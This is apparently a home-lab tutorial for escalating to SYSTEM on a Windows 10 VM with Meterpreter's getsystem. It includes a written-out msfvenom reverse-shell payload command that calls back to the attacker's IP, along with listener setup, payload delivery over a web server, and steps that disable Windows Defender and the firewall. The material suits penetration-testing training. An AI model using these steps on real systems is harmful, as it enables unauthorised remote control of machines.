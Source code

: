 # Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

## Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

## Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

## Practical Approach
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: 

![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)


